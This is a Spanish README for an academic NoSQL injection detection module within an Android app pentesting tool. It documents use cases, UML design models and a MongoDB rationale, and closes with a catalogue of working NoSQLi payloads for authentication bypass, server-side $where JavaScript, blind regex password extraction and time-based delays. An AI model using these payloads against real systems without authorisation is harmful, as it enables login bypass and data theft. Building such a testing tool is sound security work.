# Módulo de Detección de NoSQL Injection 

## Acerca del Módulo
Este repositorio aloja el componente especializado en Inyección NoSQL (NoSQLi) perteneciente al proyecto de titulación _"Desarrollo de una herramienta para pruebas de penetración en aplicaciones móviles Android"_ de la **Escuela Politécnica Nacional (EPN)**. Su objetivo es automatizar la búsqueda y explotación de vulnerabilidades en las APIs REST que utilizan las aplicaciones móviles, implementado bajo un enfoque modular en Kotlin.

---
<details>
<summary><b> Arquitectura y Flujo del Módulo </b> (Haz clic para expandir)</summary>
 

*El proxy extrae los parámetros de la solicitud HTTP, el motor aplica los vectores estructurados de operadores BSON y el sistema analiza la respuesta del servidor para determinar la vulnerabilidad.*
</details>

---

<details>
<summary><b>Modelo de Casos de Uso</b></summary>
  

*_Figura: Diagrama UML de Casos de Uso del Módulo de Detección NoSQL._*
 
El alcance funcional del módulo comprende 7 casos de uso principales orientados al actor **Analista de Seguridad**:
- **[UC-01: Configurar Entorno de Pruebas](docs/casos-de-uso/uc-01.md)** *(Incluye la medición de la línea base del servidor objetivo).*
- **[UC-02: Cargar Diccionario de Payloads BSON](docs/casos-de-uso/uc-02.md)** *(Incluye la lectura desde el sistema de archivos).*
- **[UC-03: Seleccionar Parámetros Candidatos](docs/casos-de-uso/uc-03.md)** *(Incluido por UC-02 mediante análisis heurístico del cuerpo base).*
- **[UC-04: Mutar Solicitudes y Ejecutar Pruebas](docs/casos-de-uso/uc-04.md)** *(Integra la configuración de UC-01 para la ejecución masiva).*
- **[UC-05: Analizar Respuestas y Evaluar Comportamientos](docs/casos-de-uso/uc-05.md)** *(Contrasta los resultados contra la línea base).*
- **[UC-06: Generar Reporte de Vulnerabilidad](docs/casos-de-uso/uc-06.md)** *(Exporta evidencias técnicas consolidadas).*
- **[UC-07: Detección por Tiempo / Time-Based](docs/casos-de-uso/uc-07.md)** *(Extensión de UC-05 para análisis de latencia mediante temporizador).*
</details>

---
<details>
<summary><b>Inventario Arquitectónico de Robustez </b></summary>

Para la realización de los casos de uso, se ha definido el siguiente conjunto formal de objetos de análisis, siguiendo la notación UML de actores, fronteras, controladores y entidades:


</details>

---
<details>
<summary><b>Diagramas de Robustez por Caso de Uso</b></summary>

<details>
<summary>UC-01: Configurar Entorno de Pruebas</summary>


</details>

<details>
<summary>UC-02: Cargar Diccionario de Payloads BSON</summary>


</details>

<details>
<summary>UC-03: Seleccionar Parámetros Candidatos</summary>


</details>

<details>
<summary>UC-04: Mutar Solicitudes y Ejecutar Pruebas</summary>


</details>

<details>
<summary>UC-05: Analizar Respuestas y Evaluar Comportamientos</summary>


</details>

<details>
<summary>UC-06: Generar Reporte de Vulnerabilidad</summary>


</details>

<details>
<summary>UC-07: Detección por Tiempo / Time-Based</summary>


</details>

</details>

---
<details>
<summary><b> Modelo del Dominio (Diseño Conceptual) </b></summary>

#### 1. Extracción de conceptos
Siguiendo el texto de los requisitos (las especificaciones de los casos de uso UC-01 a UC-07), se identifican los sustantivos significativos que representan entidades o ideas del dominio, evitando confundir un concepto con un simple atributo:

| Concepto candidato (texto de los UC) | ¿Concepto o atributo? | Entidad final |
|---|---|---|
| "entorno de pruebas", "endpoint objetivo", "método HTTP" | El entorno en sí es un concepto; endpoint y método son sus atributos | `ContextoEjecucion` |
| "línea base del servidor", "tiempo de respuesta promedio" | Concepto: se referencia y compara repetidamente, no es un dato suelto | `LineaBase` |
| "diccionario de payloads BSON", "categoría del payload" | Diccionario es un concepto contenedor; categoría es otro concepto, no un atributo de texto libre | `Diccionario`, `CategoriaPayload` |
| "payload", "valor del operador BSON", "tipo de vector" | Concepto recurrente con comportamiento propio (pertenece a una categoría, se inyecta) | `Payload` |
| "parámetro candidato", "campo del cuerpo base" | Concepto: resulta del análisis heurístico de UC-03 | `ParametroCandidato` |
| "solicitud mutada", "cuerpo de la petición modificado" | Concepto: es el artefacto que se envía y produce un resultado | `SolicitudMutada` |
| "resultado", "código de respuesta", "tiempo de respuesta" | Resultado es concepto; código y tiempo son sus atributos primitivos | `Resultado` |
| "hallazgo", "vulnerabilidad detectada", "severidad" | Concepto: un resultado que además se clasificó como positivo | `Hallazgo` |
| "reporte", "evidencias consolidadas" | Concepto contenedor de hallazgos | `Reporte` |

#### 2. Tabla de sinónimos seleccionados (entidades y atributos)

Tras una segunda lectura más detenida de las especificaciones UC-01 a UC-07, se llegó a la siguiente selección definitiva, igual que se hace al final del proceso de extracción:

| Entidades seleccionadas | Atributos seleccionados |
|---|---|
| ContextoEjecucion | endpoint, metodoHttp |
| LineaBase | tiempoPromedio, codigoEsperado |
| Diccionario | categoria |
| Payload | valor, tipo |
| CategoriaPayload | nombre, descripcion |
| ParametroCandidato | nombre, tipoDato |
| SolicitudMutada | payloadInyectado, timestamp |
| Resultado | codigoRespuesta, tiempoRespuesta |
| Hallazgo | categoriaVulnerabilidad, severidad |
| Reporte | fechaGeneracion, totalHallazgos |

Por ejemplo, para `Payload` el nombre se ajusta mejor a un concepto propio (tiene categoría, se inyecta, se compara), mientras que `valor` y `tipo` se adaptan mejor a tipos de dato primitivo (`string`), por su simplicidad frente a la lógica de conformación de `Payload`.

#### 3. Identificación de asociaciones

Previo a la extracción de atributos, se relacionó cada concepto mediante enlaces, apoyándose en las estructuras verbales del propio texto de los UC ("contiene", "genera", "produce", "compara con", etc.):

| Asociación (lectura) | Origen en el texto del UC |
|---|---|
| `ContextoEjecucion` **define ▶** `LineaBase` | UC-01: *"...mide la línea base del servidor objetivo antes de iniciar las pruebas"* |
| `ContextoEjecucion` **contiene ▶** `ParametroCandidato` | UC-01/UC-03: *"...sobre los parámetros candidatos del entorno configurado"* |
| `Diccionario` **contiene ▶** `Payload` | UC-02: *"...cargar diccionario de payloads BSON desde el sistema de archivos"* |
| `Payload` **pertenece a ▶** `CategoriaPayload` | UC-02: *"...payloads organizados por categoría de operador BSON"* |
| `ParametroCandidato` **genera ▶** `SolicitudMutada` | UC-04: *"...mutar solicitudes sobre los parámetros candidatos seleccionados"* |
| `Payload` **inyecta ▶** `SolicitudMutada` | UC-04: *"...ejecutar pruebas inyectando cada payload en la solicitud"* |
| `SolicitudMutada` **produce ▶** `Resultado` | UC-04/UC-05: *"...cada solicitud mutada se envía y se registra su respuesta"* |
| `Resultado` **compara con ▶** `LineaBase` | UC-05: *"...contrasta los resultados contra la línea base"* |
| `Hallazgo` **hereda de** `Resultado` | UC-06: *"...genera el reporte a partir de los resultados clasificados como vulnerabilidad"* (un hallazgo es un resultado positivo) |
| `Reporte` **agrupa ▶** `Hallazgo` | UC-06: *"...exporta evidencias técnicas consolidadas"* |

Para completar la semántica asociativa se añaden las multiplicidades, identificadas igual que en el texto de los requisitos mediante artículos indefinidos y numerales ("un", "varios", "cada uno"):

| Símbolo usado | Cardinalidad |
|---|---|
| `1` | Exactamente uno |
| `1..*` | Al menos uno o más |
| `*` | Cero o más |

Siguiendo la convención del libro, se usa siempre `*` (nunca `0..*`, que es equivalente) para "cero o más".

#### 4. Composición, agregación y herencia

- **Composición (diamante relleno):** `ContextoEjecucion`→`LineaBase`, `ContextoEjecucion`→`ParametroCandidato`, `Diccionario`→`Payload` y `SolicitudMutada`→`Resultado`. En todos estos casos la parte no tiene sentido fuera del todo: una `LineaBase` o una `SolicitudMutada` sin su `ContextoEjecucion` pierde su significado dentro del dominio del módulo.
- **Agregación (diamante hueco):** `Reporte`→`Hallazgo`. Un `Hallazgo` puede existir y conservar su significado (como `Resultado` clasificado) aunque el `Reporte` que lo agrupa aún no se haya generado o se regenere con otro conjunto.
- **Asociación simple (línea sin diamante):** `Payload`↔`CategoriaPayload`, `ParametroCandidato`↔`SolicitudMutada`, `Payload`↔`SolicitudMutada` y `Resultado`↔`LineaBase`: relaciones de uso/comparación sin relación de todo-parte.
- **Herencia (triángulo hueco):** `Hallazgo` es un tipo de `Resultado` — hereda sus atributos (`codigoRespuesta`, `tiempoRespuesta`) y añade los propios de la clasificación de vulnerabilidad (`categoriaVulnerabilidad`, `severidad`).

#### 5. Diagrama resultante


*Diagrama de clases del dominio del módulo de detección NoSQLi, con atributos, nombres de asociación (triángulo de lectura) y multiplicidades siguiendo la notación formal de UML.*

</details>

---
<details>
<summary><b> Diagramas de Secuencia por Caso de Uso </b></summary>

Cada diagrama de secuencia se deriva directamente del diagrama de robustez correspondiente: los mismos objetos (actor, frontera, controlador, entidad) se ordenan ahora en líneas de vida, con barras de activación y los mensajes numerados en el orden temporal exacto en el que ocurren. Las guardas `[condición]` que ya existían en la robustez se mantienen igual, y las relaciones `<<include>>`/`<<extend>>` del diagrama de casos de uso se materializan como llamadas entre controladores (include) o como un punto de extensión anotado sobre la línea de vida del controlador base (extend), ya que un `<<extend>>` no es una llamada explícita del caso base.

<details>
<summary>UC-01: Configurar Entorno de Pruebas</summary>


</details>

<details>
<summary>UC-02: Cargar Diccionario de Payloads BSON</summary>


</details>

<details>
<summary>UC-03: Seleccionar Parámetros Candidatos</summary>


</details>

<details>
<summary>UC-04: Mutar Solicitudes y Ejecutar Pruebas</summary>


</details>

<details>
<summary>UC-05: Analizar Respuestas y Evaluar Comportamientos</summary>


</details>

<details>
<summary>UC-06: Generar Reporte de Vulnerabilidad</summary>


</details>

<details>
<summary>UC-07: Detección por Tiempo / Time-Based</summary>


</details>

</details>

---
<details>
<summary><b> Diagrama de Clases de Diseño </b></summary>

A partir del modelo del dominio y de los objetos que aparecen en los diagramas de secuencia, se completa el diseño agregando los métodos (no solo atributos) y la capa de controladores. Se divide en dos vistas para mantener la legibilidad:

**1. Capa de controladores:** las 7 clases `Controller` (una por caso de uso) con sus métodos públicos, y las mismas relaciones `<<include>>`/`<<extend>>` ya definidas en el diagrama de casos de uso (`GestorDiccionariosController` incluye a `AnalizadorHeuristicoController`, `MotorMutacionController` incluye a `GestorConfiguracionController`, y `DetectorTemporalController` extiende a `EvaluadorRespuestasController`).


**2. Dominio con métodos:** el mismo modelo del dominio documentado arriba, ahora con el compartimento de métodos agregado donde corresponde. Las clases que son puramente de datos (`Payload`, `CategoriaPayload`, `ParametroCandidato`, `Resultado`, `Hallazgo`) se quedan solo con atributos, porque no tienen comportamiento propio en los diagramas de secuencia — son creadas y leídas por los controladores.


</details>

---
<details>
<summary><b> Motor de Base de Datos </b></summary>



- **Motor seleccionado:** MongoDB.
- Se seleccionó MongoDB debido a su posición dominante como el sistema de gestión de bases de datos NoSQL orientado a documentos (_Document Stores_) más utilizado a nivel global, de acuerdo con el [DB-Engines Ranking](https://db-engines.com/en/ranking_trend/document+store).
- **Metodología de evaluación:** Este índice calcula una puntuación de popularidad relativa estandarizando y promediando múltiples métricas de la industria. Los parámetros evaluados incluyen la cantidad de menciones en motores de búsqueda, el interés de búsqueda en Google Trends, la frecuencia de discusiones técnicas en plataformas como Stack Overflow, el volumen de ofertas de trabajo (en sitios como Indeed), y las menciones en redes profesionales (LinkedIn) y sociales (X/Twitter).


*Figura: Posicionamiento general en el ranking de DB-Engines, reflejando la alta adopción de MongoDB en la industria frente a otros motores relacionales y no relacionales.*


*Ilustración n: Gráfica de tendencia histórica de popularidad (escala logarítmica).* 

Las ilustraciones evidencian el liderazgo de MongoDB frente a otras alternativas del mercado a lo largo del tiempo, convirtiendo al motor en el objetivo ideal para el análisis de vulnerabilidades NoSQLi en aplicaciones móviles.
</details>

---

<details>
<summary><b> Taxonomía y Diccionario de Vectores de Prueba </b></summary>
El motor gestiona y evalúa los vectores de ataque estructurados a partir de repositorios de referencia como *SecLists* y *PayloadsAllTheThings*, organizándose en las siguientes categorías y combinaciones:

### Categoría A: Manipulación Lógica y Bypasses de Autenticación
Explotan la evaluación de operadores de comparación y desigualdad para alterar la condición lógica de las consultas en formularios y validaciones:
- **Operadores de desigualdad ($ne, $nin):** Fuerza la condición a verdadero buscando elementos que no coincidan con un valor dummy.
  * `{ $ne: 1 }`
  * `[$ne]=1`
  * `{$nin: [""]}`
- **Operadores de rango y mayor que ($gt):** Seleccionan cualquier registro cuyo valor sea mayor a vacío o nulo.
  * `{$gt: ''}`
  * `{"$gt": ""}`
- **Estructuras múltiples y arrays lógicos:**
  * `', $or: [ {}, { 'a':'a' } ] }`
  * `} ],$comment:'successful MongoDB injection'`

### Categoría B: Ejecución de Código en el Servidor ($where)
Permiten inyectar expresiones de JavaScript directamente en el motor para evaluar condiciones del lado del servidor:
- Sentencias de evaluación directa:
  * `true, $where: '1 == 1'`
  * `, $where: '1 == 1'`
  * `$where: '1 == 1'`
  * `', $where: '1 == 1'`
  * `1, $where: '1 == 1'`
- Inyecciones con lógica de retorno e inserción:
  * `'; return 'a'=='a' && ''=='';`
  * `db.injection.insert({success:1});`
  * `db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { emit(1,1 || 1==1`
  * `'' || 'a'=='a'`

### Categoría C: Extracción Ciega mediante Expresiones Regulares ($regex)
Utilizadas cuando no existe un retorno directo de errores o datos en la interfaz, permitiendo exfiltrar información carácter por carácter:
- Validación mediante patrones de coincidencia (`match`):
  * `' && this.password.match(/.*/)//+%00`
  * `' && this.passwordzz.match(/.*/)//+%00`
- Variantes de codificación y bypass de sintaxis:
  * `%20%26%26%26this.password.match(/.*/)//+%00`
  * `%20%26%26%26this.passwordzz.match(/.*/)//+%00`

### Categoría D: Pruebas de Retardo y Validación de Atributos (Time-Based / Blind)
Diseñadas para escenarios donde la respuesta de la aplicación depende de tiempos de espera o de la existencia de atributos específicos en colecciones BSON:
- Retardos basados en tiempo (sleep / bucles síncronos):
  * `';sleep(5000);`
  * `';it=new Date();do{pt=new Date();}while(pt-it<5000);`
- Verificación de existencia de campos (`$exists`): Vectores orientados a comprobar la presencia o ausencia de llaves específicas dentro de las colecciones BSON.

</details>

---

<details>
<summary><b> APOC: Prueba de Concepto (Entorno Local) </b></summary>
 
